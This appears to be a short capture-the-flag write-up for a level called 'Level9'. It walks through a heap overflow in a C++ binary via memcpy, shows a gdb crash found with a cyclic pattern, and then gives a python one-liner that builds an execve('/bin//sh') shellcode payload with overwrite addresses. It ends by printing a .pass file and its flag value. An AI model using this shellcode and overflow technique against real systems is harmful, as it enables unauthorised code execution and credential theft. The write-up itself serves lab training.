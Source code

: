 # Level9

No calls to /bin/sh and no direct access to .pass, we can assume we will have to use shellcode this time	
`operator new` is called twice. This will allocate memory for an object		
The program takes a single argument, that is placed into the first object instance with `strlen()` and `memcpy()`	
A `call` later in the program uses the address stored at the start of the second object instance as parameter		

Lets try and see if we can overflow on the heap using the `strcpy()`
```
gdb level9
r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
```

The segfault occurs after 108 characters, and occurs because the program interprets the begining of the second object instance as a pointer to executable code
To spawn a shell we will have to include pointers that redirect to our shellcode so that the instructions before the `call` do not crash

```
python -c "print '\x08\x04\xa0\x10'[::-1] + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 83 * 'A' + '\x08\x04\xa0\x0c'[::-1]" > /tmp/inj9
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
